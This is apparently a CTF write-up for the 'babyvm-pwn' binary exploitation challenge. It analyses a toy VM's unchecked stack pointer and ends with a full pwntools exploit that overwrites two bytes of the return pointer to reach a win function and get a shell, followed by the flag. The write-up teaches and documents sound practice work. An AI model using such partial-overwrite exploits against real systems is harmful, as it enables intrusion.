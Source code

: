 # babyvm-pwn [500]
**Category:** Binary Exploitation

> Now the vm is hosted on a server, i feel like there is something hidden in the server too...  
> 
> nc challs.hats.sg 1308

Hint:  
> Can you modify the return pointer?

## Write-up
Before reading this writeup, I suggest reading the writeup for **[babyvm-re [500]](https://github.com/MiloTruck/CTF-Archive/blob/master/HATS%20CTF/Reversing/babyvm-re%20%5B500%5D/README.md)** if you have not done so. The explanation of source code and "reversing part" of the challenge is explained there.

We start by running `checksec` on the binary:
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Note that both ASLR and PIE are enabled. ASLR randomizes the address of the stack, heap and libc, while PIE randomizes the address of .text section by initializing a random offset everytime the binary is run. This means the address of user defined functions in code, such as **win** or **main**, will not be fixed.

Here are the important parts of the source code:

**vmstep** function:
```c
int vmstep(char op,char* stack){
    switch(op | 0x20){
        case '0':
        case '1':
        case '2':
        case '3':
        case '4':
        case '5':
        case '6':
        case '7':
        case '8':
        case '9':
            ax = (op | 0x20) - 0x30;
            break;
        case 'a':
            ax += stack[sp];
            break;
        case 'd':
            --ax;
            break;
        case ' ':
        case 'e':
            return 0;
        case 'i':
            ++ax;
            break;
        case 'j':
            ip += ax - 1;
            break;
        case 'm':
            ax *= stack[sp];
            break;
        case 'p':
            printf("%c",stack[sp]);
            break;
        case 'r':
            sp = ax;
            break;
        case 's':
            ax -= stack[sp];
            break;
        case 'u':
            stack[sp] = ax;
            break;
        case 'z':
            if(stack[sp] == 0){
                ip += ax - 1;
            }
            break;
        default:
            break;
    }
    return 1;
}
```

Part of the code in **main**:
```c
    char key[101]={},
         stack[101]={},
         input[1337]={},
         code1[] = "2u4mmimmiup2u6mimimimup2u7mmimmup2u6mmimmiup2u7mmmimup2u4mmmup2u7mmimmup2u6mimmmup2u6mmimmiup2u4mmmup2u6mimmimiup2u6mmimmiup2u7mimmmiup2u5mup",
         code2[] = "2u5mmimimup2u6mmimmiup2u7mmmimup2u6mimmmiup2u6mmimimup2u7mimmmiup2u6mimmmiup2u6mimimimup2u6mmimimiup2u5mup",
         code3[] = "0r2u6mmr2u6mmimmiu0r2u5mimir2u5mmmu0r2u5mimr2u4mmmiu0r2u5mmir2u5mmmimiu0r2u5mmr2u4mimmiu0r2u4mimir2u7mimu0r2u4mimr2u6mmmmu0r2u4mmir2u4mimimimu0r2u4mmr2u5mimimimu0r2u7mir2u6mmimimu0r2u7mr2u5mimmmu0r2u6mir2u5mmmimu0r2u6mr2u5mmmiu0r2u5mir2u4mimimu0r2u5mr2u5mmimmiu9r2u5mmimu8r2u6mimmimu7r2u5mimmmu6r2u6mmimimiu5r2u7mmmmiu4r2u7mmimimiu3r2u5mmmmu2r2u5mmmimu1r2u4mmmmu0r2u4mimmmu",
         code4[] = "2u5mmimimiup2u7mmmimup2u6mimimimiup2u6mimimimup2u6mmimimiup2u4mmmup2u6mimmimiup2u6mmimmiup2u7mimmmiup2u4mmmiup2u5mup",
         code5[] = "2u4mmimimup2u6mimimmup2u6mmmmiup2u6mmimimiup2u4mmmup2u7mmimup2u4mmmup";
    int i;
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    vmexec(code1,stack);
    scanf("%1337s", &input);
    vmexec(code2,stack);
    vmexec(input,key);
    vmexec(code3,stack);
```

The challenge has a vulnerability similar to a buffer overflow. The statement `vmexec(input,key);` allows us to write instructions to overwrite values in the `key` buffer. However, as **vmstep** does not check `ax` to ensure its value is within range of the buffer, we are essentially able to overwrite any location in memory relative to the location of `key` in memory. 

These instructions are essential to exploiting the vulnerability:
* `0` sets the value of `ax` to 0.
* `d` decreases the value of `ax` by 1.
* `i` increases the value of `ax` by 1.
* `r` sets the value of `sp` to the value of `ax`. Basically, `sp = ax`.
* `a` adds the value at `stack[sp]` to `ax`. Basically, `ax += stack[sp]`.
* `u` sets the value at `stack[sp]` to the value of `ax`. Basically, `stack[sp] = ax`.

Here's an example to help you visualize the vulnerability. If the input contains: 
```python 
'0' + 'i'*999 + 'ru'
```
We would overwrite `key[999]` with the value 999. As seen in the example, we are able to overwrite any area in memory as long as our payload is not more than 1337 characters.

The exploit works by overwriting the return instruction pointer (RIP) with the address of **win**, which would give us a shell. Developing the exploit has 3 stages:

1. **Finding the offset of RIP**  
We can find the offset of RIP from the `key` buffer by a trial and error process. This can be done by overwriting every value up to a certain offset and using gdb to check if RIP is overwritten. We increase the offset if gdb is not overwritten, and decrease if it is overwritten. Keep in mind that the address of RIP would be smaller than the address of `key`, hence the offset should be negative.

2. **Calculating the address of win**  
Due to PIE, the address of **win** will change everytime the binary is run. This means that the base offset of the address will change and only the last 2 bytes are known.   

   Luckily for us, when we overwrite RIP, it contains the address of `main + 1501`. This means we only have to overwrite the last 2 bytes of RIP to call **win**, thus bypassing PIE. The last byte of **win**, which is fixed, is 0xa1. We can calculate the second last byte using `offset = (saved_rip - win) >> 8`, where `saved_rip` is the address of `main + 1501` and `win` is the address of **win**. This works as the difference between **win** and `main + 1501` is constant regardless of PIE.

3. **Overwriting RIP with the address of win**  
An offset of 103 overwrites the second last byte of RIP while 104 overwrites the last byte. The following code overwrites the last 2 bytes of RIP to become the address of **win**:
   ```python
    payload = '0' + 'd'*103 + 'r' + "0au" + 'd'*offset + 'u'
    payload += '0' + 'd'*104 + 'r' + '0' + 'i'*0xa1 + 'u'
   ```    

Here's the final exploit used to solve the challenge:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./chal",
    #"libc" : "./",
    #"ld" : "./",
    "HOST" : "challs.hats.sg",
    "PORT" : 1308,
}

def exploit(p):
    win = elf.symbols['win']
    saved_rip = elf.symbols['main']+1501
    offset = (saved_rip - win) >> 8

    payload = '0' + 'd'*103 + 'r' + "0au" + 'd'*offset + 'u'
    payload += '0' + 'd'*104 + 'r' + '0' + 'i'*0xa1 + 'u'
  
    sla("Enter the key\n", payload)
    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** HATS{vm5_4r3_c00l_4r3n7_7h3y}
